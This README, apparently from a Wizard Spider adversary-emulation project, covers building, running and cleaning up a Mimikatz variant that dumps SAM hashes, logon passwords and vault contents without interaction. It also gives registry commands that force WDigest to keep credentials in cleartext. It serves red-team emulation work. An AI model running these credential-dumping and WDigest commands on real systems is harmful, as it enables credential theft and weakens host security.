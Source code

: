 # Mimikatz

A variant of Mimikatz that executes lsadump::sam, sekurlsa::logonpasswords, and vault::list *without* user interaction. 

### Build Instructions

Open the command prompt (cmd.exe), navigate to directory containing the Mimikatz Visual Studio solution file (mimikatz.sln), and run the devenv.exe command:

	cd wizard_spider\Resources\Mimikatz
	"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\devenv.exe" mimikatz.sln /build Release

The executable will be found in the x64 folder.

### Test Instructions
Open PowerShell

	cd wizard_spider\Resources\Mimikatz\mimikatz
	mimikatz_test.ps1

### Usage Examples

	# execute all (lsadump::sam, sekurlsa::logonpasswords, and vault::list)
	mimikatz.exe
	
	# execute lsadump::sam
	mimikatz.exe s
	
	# execute sekurlsa::logonpasswords
	mimikatz.exe l
	
	# execute vault::list
	mimikatz.exe v


### Cleanup Instructions
Open a command prompt or PowerShell

	del mimikatz.exe
	
### Misc
To force credentials to be stored in cleartext in memory, Wizard Spider enables WDigest by modifying the registry (must be done as admin): 

	reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
	or
	(PowerShell) Set-ItemProperty -Path "HKLM:SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" -Name UseLogonCredential -Value 1
	
For the changes to take effect, you must log out and log back in or restart the host.

Verify the change with: 

	reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest
	or
	(PowerShell) Get-ItemProperty -Path "HKLM:SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest"

Challenges:
- Need credentials to log back in, or voice track that the victim logs back in.

### CTI Evidence
https://attack.mitre.org/groups/G0102/
https://www.hhs.gov/sites/default/files/trickbot.pdf
https://us-cert.cisa.gov/ncas/alerts/aa20-302a
https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html

### References
https://github.com/gentilkiwi/mimikatz  
https://docs.microsoft.com/en-us/visualstudio/ide/reference/build-devenv-exe?view=vs-2019  

### CTI Evidence
https://attack.mitre.org/groups/G0102/  
https://www.hhs.gov/sites/default/files/trickbot.pdf  
https://us-cert.cisa.gov/ncas/alerts/aa20-302a  
https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html


### References
https://github.com/gentilkiwi/mimikatz  
https://docs.microsoft.com/en-us/visualstudio/ide/reference/build-devenv-exe?view=vs-2019

